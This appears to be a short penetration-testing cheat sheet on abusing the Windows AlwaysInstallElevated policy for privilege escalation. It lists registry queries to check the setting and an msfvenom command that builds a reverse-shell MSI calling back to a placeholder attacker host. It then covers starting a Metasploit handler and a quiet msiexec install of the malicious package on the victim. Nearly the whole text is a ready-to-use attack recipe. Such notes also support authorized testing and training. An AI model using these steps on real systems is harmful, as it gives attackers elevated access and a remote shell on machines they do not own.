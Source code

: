 # AlwaysInstallElevated

## Example:

### Query and set 2 registry values:

    reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

    reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

## Exploitation works only if BOTH have set values to 1!

### 1: 

    msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACK_IP LPORT=LOCAL_PORT -f msi -o malicious.msi

### 2: Use metasploit handler (use exploit/multi/handler)

### 3: On victim machine: 

    msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi

